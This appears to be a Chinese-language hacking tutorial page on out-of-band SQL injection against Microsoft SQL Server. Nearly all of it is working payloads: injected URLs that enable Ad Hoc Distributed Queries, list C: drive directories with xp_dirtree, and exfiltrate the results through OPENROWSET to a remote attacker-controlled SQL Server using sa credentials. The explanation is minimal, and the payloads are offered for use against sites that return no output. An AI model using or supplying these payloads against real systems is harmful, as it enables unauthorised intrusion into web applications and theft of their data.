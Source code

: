 适用于盲注入，页面不返回信息，使用这种注入方法，需要一台带有sqlserver的机器。原理就是把当前数据转发到远程的sqlserver上。

1. 启用Ad Hoc Distributed Queries：

;exec sp_configure 'show advanced options',1 reconfigure
;exec sp_configure 'Ad Hoc Distributed Queries',1 reconfigure

2. 为了安全使用完成后，关闭Ad Hoc Distributed Queries：

;exec sp_configure 'Ad Hoc Distributed Queries',0 reconfigure
;exec sp_configure 'show advanced options',0 reconfigure

**1、开启扩展**

```http
http://www.demo1.com/index.aspx?id=1;exec sp_configure 'show advanced options',1 reconfigure;exec sp_configure 'Ad Hoc Distributed Queries',1 reconfigure
```

本地建立mydb库与临时表(与目标一致)

```sql
create table ##version (VERSION varchar(500))
```

**2、查询系统信息**

```http
http://www.demo1.com/index.aspx?id=1;insert into OPENROWSET('SQLOLEDB', 'server=192.168.31.114;uid=sa;pwd=123456', 'select * from %23%23version' ) select DB_NAME()
```

![img](../../acess/s1.jpg) 

执行上面语句之后 再来查询远程sqlserver上的表

```sql
select * from ##version
```

![img](../../acess/s2.jpg) 

 

**3、两边创建临时表**

```sql
create table ##moon( dir ntext, num int )
```

```http
http://www.demo1.com/index.aspx?id=1;create table %23%23moon( dir ntext, num int )
```

**4、查询路径**

向nonamed表插入c盘下路径的数据

```http
http://www.demo1.com/index.aspx?id=1;insert %23%23moon execute master..xp_dirtree 'c:/',1
```

这里就是把数据转发到远程192.168.31.114 sqlserver上

```http
http://www.demo1.com/index.aspx?id=1;insert into OPENROWSET('SQLOLEDB', 'server=192.168.31.114;uid=sa;pwd=123456', 'select * from %23%23moon' ) select * from %23%23moon
```

在远程sqlserver执行这个命令 就可以获取 数据

```sql
select * from ##moon
```

![img](../../acess/s3.jpg) 

 